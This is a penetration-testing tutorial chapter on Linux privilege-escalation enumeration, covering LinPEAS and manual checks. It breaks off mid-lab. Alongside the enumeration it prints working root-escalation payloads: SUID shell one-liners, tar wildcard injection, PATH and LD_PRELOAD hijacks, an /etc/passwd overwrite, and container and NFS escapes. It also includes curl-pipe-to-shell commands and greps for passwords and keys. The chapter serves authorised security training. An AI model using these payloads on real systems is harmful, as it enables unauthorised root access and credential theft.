



**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 85 min

This is Chapter 2 of the Privilege Escalation notebook. The previous chapter taught the *methodology* — the five-question situational-awareness loop that applies to any host. This chapter and the next make that loop concrete for Linux. Here we focus on **enumeration**: systematically finding every possible path from a low-privilege user to root, using both the dominant automated scanner (LinPEAS) and the manual techniques that back it up. The next chapter covers **exploitation** — actually turning each finding into a root shell.

The split is deliberate. Enumeration and exploitation are different skills. A beginner who memorises "run this SUID exploit" is helpless the moment the box doesn't have that exact SUID binary. An operator who can *enumerate* thoroughly will find the one weakness this particular box has — because they looked everywhere and understood what they saw. This chapter is about building that habit on Linux specifically, and about using LinPEAS as an accelerator without becoming dependent on it.

Everything here assumes an explicit, written, scoped engagement or lab hardware you own. Running enumeration and escalation on a system you are not authorised to test is a crime, no matter how passive the commands appear.

---

## Part 1: The Linux Escalation Landscape

Root on Linux is `uid=0`. Every escalation technique is a different way of getting the system to run something *as* uid 0 (or a more privileged user/group) on your behalf. The categories are finite, and this chapter enumerates each:



The order to work them, from last chapter: **credentials > sudo/GTFOBins > SUID/caps > writable cron/service > group abuse > kernel.** Enumeration's job is to populate every branch of that tree with facts, so the ranking has something to rank.

**Why enumeration wins:** most real Linux escalations are *misconfigurations*, not memory-corruption exploits. A writable cron script, a sudo rule for `less`, a `cap_setuid` on python — these are configuration mistakes that no patch fixes and no CVE tracks. You find them by looking, not by matching versions.

There is a second, subtler reason enumeration matters: **it is reversible and safe.** Reading `sudo -l`, listing SUID binaries, and grepping for passwords change nothing on the box and cannot crash it. A kernel exploit can panic a production server and end your engagement badly. So the professional order is not just "enumerate then exploit" for efficiency — it is "exhaust the safe, deterministic paths that enumeration reveals before you touch anything risky." An operator who roots a box via a `getcap` finding leaves it exactly as they found it; one who leads with a kernel LPE gambles the client's uptime on an exploit's reliability. This chapter, therefore, is not merely preliminary to the exploitation chapter — it is the part that keeps your work reliable and professional.

---

## Part 2: LinPEAS From Zero

**LinPEAS** (Linux Privilege Escalation Awesome Script) is a large bash script from the PEASS-ng project that runs *hundreds* of enumeration checks and highlights likely privilege-escalation vectors with colour coding. It is the de-facto first tool operators reach for on a Linux foothold when detection is not a concern.

What it checks, in one breath: system/kernel info, users and sudo, SUID/SGID/capabilities, cron and timers, writable files and folders, PATH issues, network and services, interesting files (configs, histories, keys), software versions with known exploits, container indicators, and much more. It is essentially the manual checklist of this chapter, automated.

LinPEAS is part of the **PEASS-ng** ("Privilege Escalation Awesome Scripts SUITE - next generation") project, which also ships **WinPEAS** for Windows (covered in the Windows chapters) and **peass** helpers. The two share a philosophy: run every known check, colour-rank the results by exploitation likelihood, and let the operator triage. Because the project is actively maintained, its check set tracks new CVEs and techniques — one reason it stays the default despite its noise.

### Getting it onto the target

LinPEAS is a single script. Options, quietest first:

```bash
# 1) Run entirely in memory - never touches disk (best for stealth + noexec /tmp)
curl -L https://<your-host>/linpeas.sh | sh
# in a lab, host it yourself:
#   attacker:  python3 -m http.server 8000   (serving linpeas.sh)
#   target:    curl -s http://10.10.14.7:8000/linpeas.sh | sh

# 2) Write to a writable+executable location, then run
cd /dev/shm            # tmpfs, usually exec-allowed even when /tmp is noexec
wget http://10.10.14.7:8000/linpeas.sh -O lp.sh
chmod +x lp.sh && ./lp.sh | tee lp.out
```

`/dev/shm` matters: many hardened boxes mount `/tmp` with `noexec`, so a script chmod+run there fails. `/dev/shm` (shared memory tmpfs) is frequently still executable. Piping from `curl | sh` sidesteps the filesystem entirely — the quietest option and immune to `noexec`.

### Reading LinPEAS output — the colour code

LinPEAS output is long; the skill is *triage*. The colour legend (printed at the top of every run):

| Colour | Meaning | Action |
|--------|---------|--------|
| **Red/Yellow background** | 95%+ a privesc vector | check this FIRST |
| **Red** | interesting, likely exploitable | high priority |
| **Yellow** | interesting, needs judgement | investigate |
| **Green** | normal/informational | usually skip |
| **Blue** | directories/informational | context |

The single most useful habit: **search the output for the red/yellow highlighted lines** and start there. Save output with `tee` and grep it:

```bash
grep -nE '95%|CVE-|Vulnerable|writable by|NOPASSWD|cap_' lp.out
```

A typical high-value hit looks like:

```
╔══════════╣ Checking sudo tokens
[+] [CVE-2021-3156] sudo Baron Samedit
   Sudo version 1.8.31 -> Vulnerable to CVE-2021-3156

╔══════════╣ SUID - Check easy privesc, exploits and write perms
-rwsr-xr-x 1 root root  /usr/bin/pkexec   ---> CVE-2021-4034 (PwnKit)
/usr/bin/python3.8 = cap_setuid+ep                     <-- (yellow) capability!
```

**Do not blindly trust it.** LinPEAS flags *candidates*; you confirm them by hand (Parts 4–12). It also misses environment-specific things and can be blocked by AV/EDR. It is an accelerator, not an oracle.

### The sections that matter most

LinPEAS output is organised into major sections; these five are where wins concentrate, so jump to them first:

1. **"Interesting Files -> SUID / SGID / Capabilities"** — the odd binary out and any dangerous capability.
2. **"Users Information -> Sudo"** — `sudo -l` results and sudo version CVEs.
3. **"Scheduled/Cron jobs"** — writable root scripts, wildcards, relative commands.
4. **"Interesting Files -> Readable/Writable files"** — writable service units, `/etc/passwd`, cron scripts.
5. **"Software Information / Available exploits"** — kernel and package CVEs with references.

Useful flags:

```bash
./linpeas.sh -a            # all checks (thorough, slower)
./linpeas.sh -e            # extra enumeration
./linpeas.sh -s            # stealth-ish / superfast (fewer checks)
./linpeas.sh -o SysI,Devs  # only run selected check groups
```

### Manual coverage vs LinPEAS

LinPEAS is broad but you should know what it *is* checking so you can reproduce it by hand when it's blocked:

| Category | LinPEAS section | Manual equivalent |
|----------|-----------------|-------------------|
| SUID/SGID | Interesting Files | `find / -perm -4000` |
| Capabilities | Interesting Files | `getcap -r /` |
| Sudo | Users Information | `sudo -l`, `sudo --version` |
| Cron | Scheduled tasks | `cat /etc/crontab`, pspy |
| Writable files | Interesting Files | `find / -writable` |
| Kernel exploits | Software Information | `uname -a` + suggester |
| Creds | Interesting Files | targeted grep |
| Network | Network Information | `ss -tulpn`, `ip a` |

The point of the table: LinPEAS is a *convenience wrapper* around commands you already know. If it's unavailable or risky, you lose nothing but time by running the right column yourself. This is the healthiest way to relate to any automation in security: use it to go fast, but understand it well enough to reproduce it, because on the engagement that matters most the tool will be blocked, flagged, or simply wrong.

---

> **Ethics & scope reminder.** Every command in this chapter is run against a system you have written authorisation to test. Even read-only enumeration on a system outside your scope is unauthorised access. Escalation changes the state of a machine you do not own unless you are permitted to — keep scope boundaries as hard limits, snapshot before risky steps, and document every action for the report.

---

## Part 3: The Manual Enumeration Backbone

Whether or not you run LinPEAS, you must be able to enumerate by hand — to verify findings, to work where LinPEAS is blocked, and to understand *why* something is exploitable. The rest of the chapter is the manual checklist, category by category. Run these top to bottom on any Linux foothold:

```bash
# identity & power
id; sudo -l 2>/dev/null
# suid/sgid/caps
find / -perm -4000 -type f 2>/dev/null
find / -perm -2000 -type f 2>/dev/null
getcap -r / 2>/dev/null
# scheduled
cat /etc/crontab; ls -la /etc/cron.* 2>/dev/null; systemctl list-timers 2>/dev/null
# writable
find / -writable -type f 2>/dev/null | grep -vE '^/proc|^/sys' | head -50
# system
uname -a; cat /etc/os-release
# creds & network in Chapter 1
```

This backbone is the "safe pass" — nothing here modifies the system. Run it first, in full, on every foothold.

Each of the following parts unpacks one of these. A discipline worth adopting from the start: run this backbone in the *same order every time* and record each result. Consistency turns enumeration from an anxious scavenger hunt into a checklist you can execute calmly under exam or engagement time pressure — and it guarantees you never skip the one check that mattered because you got excited about an earlier finding.

One more setup note: many of these commands emit noisy `Permission denied` errors as they traverse directories you can't read. That's why every command above ends in `2>/dev/null` — it suppresses stderr so the real findings aren't buried. Keep that habit; a wall of permission errors hides the single writable file that is your path up.

---

## Part 4: Users, Groups and sudo

**Enumerate accounts and your position:**

```bash
cat /etc/passwd                       # all accounts
grep -vE 'nologin|false' /etc/passwd  # accounts with real shells
id; groups                            # your groups
getent group sudo docker lxd disk adm # membership of powerful groups
```

**sudo — the highest-value single check:**

```bash
sudo -l
```

Interpreting the output is the whole game:

```
User dev may run the following commands on host:
    (root) NOPASSWD: /usr/bin/awk
    (ALL) /usr/bin/systemctl
```

- `NOPASSWD` means no password needed — instant. `awk` is a GTFOBin (`sudo awk 'BEGIN{system("/bin/sh")}'`).
- `(ALL) /usr/bin/systemctl` (even with password, if you have it) → craft a malicious unit and start it as root.

**Powerful groups are escalation classes in themselves:**

| Group | Why it's root-equivalent |
|-------|--------------------------|
| `sudo` | run commands as root (need password unless NOPASSWD) |
| `docker` | `docker run -v /:/mnt ... chroot` = root filesystem access |
| `lxd`/`lxc` | launch a privileged container mounting host `/` |
| `disk` | raw read/write of block devices → read `/etc/shadow`, edit files |
| `adm` | read all logs (creds often logged) |
| `shadow` | read `/etc/shadow` directly → crack hashes |
| `video`/`kvm` | niche, occasionally useful |

Finding yourself in any of these is often the fastest win — note it and confirm in the next chapter.

### sudo caching, tokens, and password reuse

`sudo` caches successful authentication for a few minutes (per-tty). If another user's session recently ran `sudo`, and you can hijack their tty or exploit a token bug, you may sudo without their password — the basis of some `sudo` token attacks LinPEAS checks for. More prosaically, if you have found *a* password (Chapter 1), try it against `sudo` and `su` for every account:

```bash
sudo -l                 # if it accepts your found password, read the rules
su - root               # try the found password directly
for u in $(cut -d: -f1 /etc/passwd); do echo "$u"; done   # candidate accounts to su into
```

People reuse passwords across their own accounts, between the app DB password and the system account, and between dev and prod. A password found in `wp-config.php` is worth trying as the `mysql` system user's password and as `root`'s. Track every attempt in your notes to avoid lockouts and repeated work.

### Reading /etc/passwd and /etc/shadow

If `/etc/passwd` is writable (rare but game-over), add a root-uid account. If `/etc/shadow` is readable (via `shadow`/`adm` group or a capability), crack it offline:

```bash
ls -la /etc/passwd /etc/shadow
# if shadow readable:
unshadow /etc/passwd /etc/shadow > hashes.txt
hashcat -m 1800 hashes.txt rockyou.txt      # 1800 = sha512crypt ($6$)
```

`unshadow` merges the two files into a format John/hashcat understand; `-m 1800` is the mode for modern `$6$` (sha512crypt) hashes. Cracking a root or admin password is one of the cleanest escalations because it yields a legitimate credential, not a fragile exploit.

---

## Part 5: SUID / SGID Binaries

A **SUID** (Set-User-ID) binary runs with the privileges of its *owner*, not the caller. If root owns it and it's SUID, it runs as root no matter who launches it. **SGID** is the same for the group.

```bash
find / -perm -4000 -type f 2>/dev/null      # SUID
find / -perm -6000 -type f 2>/dev/null      # SUID+SGID
find / -perm -2000 -type f 2>/dev/null      # SGID
# with details:
find / -perm -4000 -type f -exec ls -la {} \; 2>/dev/null
```

Expected SUID binaries on a normal system (baseline): `su`, `sudo`, `passwd`, `chsh`, `chfn`, `newgrp`, `gpasswd`, `mount`, `umount`, `pkexec`, `fusermount`. **The escalation is the odd one out** — a binary that is not on this baseline: `find`, `vim`, `nmap`, `cp`, `python`, `bash`, a custom company binary. Each maps to a GTFOBins entry (`vim -c ':!/bin/sh'`, etc.), covered next chapter.



**Custom SUID binaries** deserve extra attention: run `strings` on them to see what they call. A SUID program that invokes `system("service ...")` or a relative command is vulnerable to PATH hijack (next chapter):

```bash
strings /usr/local/bin/backup_suid | grep -iE 'system|exec|cp|tar|/bin/'
```

### Reading GTFOBins for a SUID finding

GTFOBins tells you, for each binary, how to abuse it in each context (`sudo`, `suid`, `capabilities`, file read/write). A few you will meet constantly, in their **SUID** form (note `-p` to preserve euid where relevant):

```bash
# SUID find
./find . -exec /bin/sh -p \; -quit
# SUID vim
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh","sh","-pc","reset; exec sh -p")'
# SUID nmap (old interactive mode)
./nmap --interactive
nmap> !sh
# SUID cp (overwrite /etc/passwd with a known-password root entry)
echo 'root2:$1$abc$...:0:0:root:/root:/bin/bash' >> /tmp/p
./cp /tmp/p /etc/passwd   # then: su root2
# SUID bash
./bash -p
# SUID env
./env /bin/sh -p
# SUID awk
./awk 'BEGIN {system("/bin/sh -p")}'
```

The pattern is always the same: a legitimate feature (execute, shell-out, read/write) inherited with root privileges. The mental model to carry: *any SUID binary that can run another program, read an arbitrary file, or write an arbitrary file is a root escalation.* You don't memorise 200 binaries — you recognise those three capabilities and look up the exact incantation.

---

## Part 6: Linux Capabilities

Capabilities split root's power into discrete units, so a binary can have *some* root powers without full SUID. They are easy to misconfigure and often overlooked by defenders.

```bash
getcap -r / 2>/dev/null
```

High-value capabilities:

| Capability | What it grants | Escalation |
|-----------|----------------|-----------|
| `cap_setuid` | change UID | `setuid(0)` then shell → root |
| `cap_setgid` | change GID | group escalation |
| `cap_dac_read_search` | bypass file read perms | read `/etc/shadow`, any file |
| `cap_dac_override` | bypass file write perms | write any file |
| `cap_sys_admin` | broad admin powers | many paths (mount, etc.) |
| `cap_sys_ptrace` | trace any process | inject into root process |
| `cap_chown` | change ownership | chown a binary to yourself |

Example: `python3 = cap_setuid+ep` →

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

`+ep` means the capability is Effective and Permitted — it actually applies. Confirm the suffix; `+i` (inheritable) alone does not grant it directly.

---

## Part 7: Cron Jobs and systemd Timers

Anything root runs on a schedule is a prime target, because if you can influence *what* it runs, you execute code as root.

```bash
cat /etc/crontab                    # system-wide - runs as the user in col 6 (often root)
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/ /etc/cron.weekly/
crontab -l                          # your own crontab
cat /var/spool/cron/crontabs/* 2>/dev/null
systemctl list-timers --all         # systemd timers (modern cron replacement)
```

What to look for in a cron entry like `*/5 * * * * root /usr/local/bin/backup.sh`:

1. **Is the script writable by me?** `ls -la /usr/local/bin/backup.sh` — if yes, append a reverse shell/`chmod +s /bin/bash` → root in ≤5 minutes.
2. **Does it call a command by relative name?** (`tar` not `/bin/tar`) → PATH hijack.
3. **Does it use a wildcard?** (`tar czf backup.tar *`) → wildcard injection (checkpoint/`--checkpoint-action`).
4. **Does it source a writable file?** → inject there.

**Watching cron without root — pspy.** You often can't read root's crontab, but you can *watch* processes execute. `pspy` monitors `/proc` and shows every process (with args) and cron execution in real time, no root needed:

```bash
./pspy64 -pf -i 1000
# reveals: UID=0  /bin/sh /usr/local/bin/backup.sh   every 5 min
```

pspy is frequently the single most productive tool on a Linux box — it surfaces hidden root cron jobs and any secrets passed on their command lines. Run it early and leave it running in a spare shell for a few minutes while you do the rest of your enumeration; short-interval jobs will reveal themselves, and you'll often catch a root process momentarily exposing a password or an API token in its arguments that no static scan would ever see.

---

### Wildcard injection in cron scripts

A root cron script that runs a command with a wildcard over a directory you can write to is exploitable, because the wildcard expands your filenames into *arguments*. The classic is `tar`:

```bash
# root cron: cd /home/web/backups && tar czf /root/bk.tar.gz *
# you write files whose names ARE tar options:
cd /home/web/backups
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > runme.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh runme.sh'
# when cron runs tar *, it sees --checkpoint-action=exec=sh runme.sh and runs your script as root
```

The same trick works with `chown`, `rsync`, `chmod`, and others that accept `--` options. Any wildcard over an attacker-writable directory in a root context deserves this check. **This is why `tar czf ... *` in a root cron is a real finding even though it "looks harmless."**

### sudo version and known CVEs

The `sudo` binary itself has had serious local-privesc CVEs. Always note the version:

```bash
sudo --version | head -1
# sudo 1.8.31  -> CVE-2021-3156 (Baron Samedit) - heap overflow, no sudo rights needed
# sudo <1.9.5p2 with specific config -> CVE-2021-23240 etc.
```

Baron Samedit (CVE-2021-3156) is notable because it works even for users with *no* sudo privileges at all — the mere presence of a vulnerable `sudo` is the vector. LinPEAS flags it; confirm the version and use a vetted PoC in the next chapter.

---

### systemd timers as modern cron

Many systems have replaced cron with systemd timers. Enumerate them explicitly — beginners who only check `/etc/crontab` miss these entirely:

```bash
systemctl list-timers --all
# for a suspicious timer, find its .timer and the .service it triggers:
cat /etc/systemd/system/backup.timer
cat /etc/systemd/system/backup.service | grep ExecStart
# is the ExecStart binary/script writable by me?
ls -la /path/from/ExecStart
```

A timer whose `.service` runs a writable script — or a writable `.service`/`.timer` unit you can edit — escalates exactly like a writable cron script: change what it runs, wait for the next trigger, and it executes as the unit's `User=` (default root). Also check `OnCalendar=`/`OnBootSec=` to know *when* it fires so you don't wait blindly.

---

## Part 8: PATH, Environment and Library Hijacking

**PATH hijack:** if a root-run script or SUID binary calls a command *without an absolute path* (e.g., `service`, `tar`, `cp`) and you can write to a directory that appears earlier in its `PATH`, you place a malicious binary of that name there.

```bash
echo $PATH                                    # is a writable dir early in PATH?
# if a SUID binary calls system("service") and . or /tmp is in PATH:
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/vuln_suid          # runs your /tmp/service as root
/tmp/rootbash -p                  # -p keeps euid=0
```

**LD_PRELOAD / LD_LIBRARY_PATH:** if `sudo -l` shows `env_keep+=LD_PRELOAD`, you can preload a malicious shared library into a sudo-run command:

```c
// evil.c -> compile: gcc -fPIC -shared -o /tmp/evil.so evil.c -nostartfiles
#include <stdlib.h>
void _init(){ setuid(0); system("/bin/bash -p"); }
```

```bash
sudo LD_PRELOAD=/tmp/evil.so someallowedcommand   # runs _init() as root
```

`sudo -l` output governs this — look for `env_keep`, `env_reset` absence, or `SETENV`.

**LD_LIBRARY_PATH** is a sibling technique: if it's preserved, point it at a directory holding a malicious copy of a library the allowed command loads, and your library's constructor runs as root. And a SUID binary that loads a library from a *writable* path (find with `ldd`) is exploitable the same way without sudo at all:

```bash
ldd /usr/local/bin/vuln_suid          # which libs, from where?
# if it loads /opt/lib/libcustom.so and /opt/lib is writable, replace it with your .so
```

The general principle across PATH/LD hijacks: **any time a privileged process resolves a name (command or library) through a location you control, you control what runs.** Enumeration's job is to find those controllable resolution points — writable PATH entries, preserved `LD_*`, writable library dirs.

---

## Part 9: Services, Sockets and Writable Unit Files

Beyond cron, long-running services are escalation surface.

```bash
systemctl list-units --type=service --state=running
# writable service unit files = edit ExecStart to run your payload as root
find /etc/systemd/ /lib/systemd/ -name '*.service' -writable 2>/dev/null
# writable service binaries
ls -la $(systemctl show -p ExecStart --value <service> 2>/dev/null)
```

**Unix sockets** are a quieter path. A world-readable/writable Docker socket is game over:

```bash
ls -la /var/run/docker.sock       # srw-rw---- ... if you're in docker group or it's ww
# if reachable:
docker run -v /:/host -it alpine chroot /host bash    # root on the host filesystem
```

Any writable socket connected to a root daemon is worth investigating — it often exposes an API that runs code as root.

Enumerate all unix sockets and who owns them:

```bash
ss -xlp                                  # listening unix sockets + process
find / -type s 2>/dev/null | xargs -r ls -la 2>/dev/null   # socket files + perms
```

A writable socket for `containerd`, `dockerd`, a message bus, or a custom management daemon is the kind of overlooked path that beats every SUID trick — because talking to a root daemon's API *is* running as root, indirectly. Check the permissions column: any socket with group- or world-write that a root process owns is a lead.

---

## Part 10: Kernel, Distro and Software Fingerprinting

Kernel exploits are a **last resort** (crash risk), but you enumerate the version so you know the option exists.

```bash
uname -a                          # kernel version + arch
cat /etc/os-release               # distro + release
# match against known kernel exploits (offline):
#   e.g. Dirty COW (<4.8.3), Dirty Pipe (5.8-5.16.11), PwnKit (pkexec, not kernel)
```

For vulnerable *software* (not the kernel), check versions of running services and setuid apps against `searchsploit` (earlier notebook). A local-privesc CVE in an installed daemon (e.g., an old `screen`, `exim`, or `pkexec`) is often more reliable than a kernel exploit.

| Class | Example | Risk |
|-------|---------|------|
| Kernel LPE | Dirty Pipe, Dirty COW | can panic the box |
| setuid app CVE | PwnKit (pkexec), Baron Samedit (sudo) | usually safe & reliable |
| Service LPE | old daemon with local CVE | varies |

Prefer misconfig and setuid-app CVEs over kernel exploits every time reliability matters.

To map a kernel version to candidate exploits offline:

```bash
uname -r                                   # e.g. 5.4.0-90-generic
./linux-exploit-suggester.sh               # ranks likely kernel LPEs
searchsploit linux kernel 5.4 privilege    # local exploit-db search
```

Treat the suggester's output as *leads*, not guarantees — distros backport security fixes without changing the visible version, so a kernel that "looks" vulnerable may be patched. Verify against the distro changelog, test in a snapshot you can revert, and never run an untrusted kernel PoC on a production host without the client's explicit blessing.

---

## Part 11: Credentials, NFS and Mounts

**Credentials** (from Chapter 1, applied here):

```bash
cat ~/.bash_history /home/*/.bash_history 2>/dev/null
grep -riE 'password|passwd|secret|token' /etc /var/www /opt 2>/dev/null | head
cat ~/.ssh/id_* /home/*/.ssh/id_* 2>/dev/null
find / -name 'id_rsa' -o -name '*.kdbx' 2>/dev/null
```

Reading `/etc/shadow` (if group `shadow`/`adm` or a capability allows) hands you hashes to crack offline with hashcat — a clean escalation.

**NFS `no_root_squash`** is a classic. If an exported share has `no_root_squash`, a file you create as root on a machine you control keeps uid 0 when accessed via the mount — so you write a SUID root binary into the share:

```bash
cat /etc/exports                          # look for no_root_squash
showmount -e <nfs-server>                 # from a client
# as root on your box, mount and drop a SUID shell into the share
mount -t nfs server:/share /mnt/nfs
cp /bin/bash /mnt/nfs/rootbash; chmod +s /mnt/nfs/rootbash
# on the target, the file is SUID-root:
/share/rootbash -p
```

**Mount options** generally: `mount` and `cat /proc/mounts` reveal `nosuid`/`noexec` flags (which constrain you) and unusual mounts (a mounted host filesystem inside a container = escape).

### Where credentials actually hide on Linux

A fuller map than Chapter 1, tuned for privilege escalation specifically:

| Location | Command | Typical find |
|----------|---------|--------------|
| Shell history | `cat ~/.*_history /home/*/.*_history` | pasted passwords, `mysql -p...` |
| App config | `.env`, `wp-config.php`, `settings.py`, `config.php` | DB/service creds |
| Web server | `/var/www`, `/etc/nginx`, `/etc/apache2` | `.htpasswd`, connection strings |
| Backups | `/var/backups`, `*.bak`, `*.old`, `*~` | old configs, shadow copies |
| SSH | `~/.ssh/id_*`, `authorized_keys`, `known_hosts` | private keys, lateral targets |
| Databases | `mysql -u root`, sqlite files | app users, hashes |
| Mail spools | `/var/mail/*`, `/var/spool/mail` | credentials in messages |
| Logs (adm group) | `/var/log/*` | passwords accidentally logged |
| Memory | `/proc/*/environ`, `/proc/*/cmdline` | secrets in env/args of root procs |

That last row is powerful: even without root you can sometimes read another process's environment/args via `/proc/<pid>/environ` if it's your process, and pspy captures root process command lines as they spawn. Secrets passed via environment variables or command-line arguments are exposed far more often than admins expect.

```bash
# scan every readable process environment for secrets
for p in /proc/[0-9]*/environ; do tr '\0' '\n' < "$p" 2>/dev/null; done | grep -iE 'pass|token|key' | sort -u
```

---

## Part 11.5: Automated Tools Compared

LinPEAS is not the only scanner. Know the landscape so you pick the right one for the engagement:

| Tool | Language | Strength | Noise |
|------|----------|----------|-------|
| **LinPEAS** | bash | most comprehensive, colour-coded, actively maintained | high |
| **lse.sh** (linux-smart-enumeration) | bash | tiered verbosity (`-l0/1/2`), cleaner output | medium |
| **LinEnum** | bash | classic, readable report | medium |
| **pspy** | Go binary | watches processes/cron live, no root | low-medium |
| **linux-exploit-suggester** | bash | maps kernel version → exploits | low |
| **lynis** | bash | audit-oriented (blue team) | high |

A pragmatic combo on a loud engagement: **pspy running in one shell** (to catch cron/root processes over a few minutes) **while LinPEAS runs in another** (for the static checklist), then **linux-exploit-suggester** if nothing misconfigured turns up. On a quiet engagement, skip the scanners and work the manual backbone plus pspy only.

```bash
# tiered lse.sh - start light, go deeper only if needed
./lse.sh -l1        # level 1: interesting findings
./lse.sh -l2        # level 2: everything (very verbose)
# kernel exploit suggester
./linux-exploit-suggester.sh
```

**Verification remains mandatory** regardless of tool: every scanner produces false positives (a "writable" file you actually can't modify due to a parent-dir permission, a "vulnerable" version that's been backport-patched by the distro). Confirm by hand before you rely on a path.

---

## Part 12: Turning the Pile Into a Ranked Plan

You now have a heap of findings. Rank and act as in Chapter 1:



Record each candidate with evidence, reliability, and noise (Chapter 1's note-taking). Execute the safest, highest-value, lowest-noise path first — the *exploitation* of each is the next chapter.

---

## Part 12.5: Containers and Distro Quirks

Before you spend an hour on host privesc, confirm you are even *on the host*.

```bash
cat /.dockerenv 2>/dev/null && echo "in docker"
grep -qE 'docker|lxc|kubepods' /proc/1/cgroup && echo "containerised"
systemd-detect-virt                # 'docker', 'lxc', 'kvm', 'none'
ls -la /                           # tiny root fs + no systemd often = container
```

If containerised, the goal shifts to **escape**, and the enumeration changes: look for a mounted host path (`mount | grep -i host`), a reachable Docker socket (`/var/run/docker.sock`), excessive capabilities (`capsh --print`), or `--privileged` mode (`ls /dev` shows host devices). A privileged container is a trivial host takeover:

```bash
capsh --print | grep cap_sys_admin        # privileged?
ls -la /dev | grep -E 'sda|nvme'          # host block devices visible = privileged
# escape via mounting the host disk:
mkdir /mnt/host && mount /dev/sda1 /mnt/host && chroot /mnt/host bash
```

**Distro quirks that change enumeration:**

- **Debian/Ubuntu:** `/bin/sh` is `dash`; SUID list differs slightly; `sudo` config in `/etc/sudoers.d/`.
- **RHEL/CentOS:** SELinux may block escalations that "should" work — check `getenforce`; packages via `rpm -qa`.
- **Alpine (common in containers):** `busybox` provides most binaries; no bash by default; musl libc changes some exploits.
- **Read-only root / immutable:** hardened hosts may mount `/` read-only; look for the one writable mount.

Always run `getenforce`/`aa-status` — an *Enforcing* SELinux or an AppArmor profile can silently defeat a technically-valid escalation, and knowing that saves you chasing a "broken" exploit.

---

## Part 13: Fully Worked Lab — Enumerate a Box End to End

**Scope:** authorised lab. Stabilized shell as `web` on `lin-priv01`. Goal: enumerate exhaustively and pick the safest escalation (execution shown minimally; full technique next chapter).

### Manual pass

```bash
web@lin-priv01:~$ id
uid=1001(web) gid=1001(web) groups=1001(web)
web@lin-priv01:~$ sudo -l
Sorry, user web may not run sudo on lin-priv01.
web@lin-priv01:~$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/mount
/usr/bin/find          <-- SUID find! (not on baseline)
web@lin-priv01:~$ getcap -r / 2>/dev/null
(no output)
web@lin-priv01:~$ cat /etc/crontab | grep -v '^#'
*/3 * * * * root /opt/maint/clean.sh
web@lin-priv01:~$ ls -la /opt/maint/clean.sh
-rwxr-xr-x 1 root root 88 ... /opt/maint/clean.sh   # not writable by me
web@lin-priv01:~$ cat /opt/maint/clean.sh
#!/bin/bash
cd /tmp && rm -rf tmp_*      # uses relative 'rm' but cd first; PATH? runs as root
```

### LinPEAS confirmation

```bash
web@lin-priv01:~$ curl -s http://10.10.14.7:8000/linpeas.sh | sh | tee lp.out
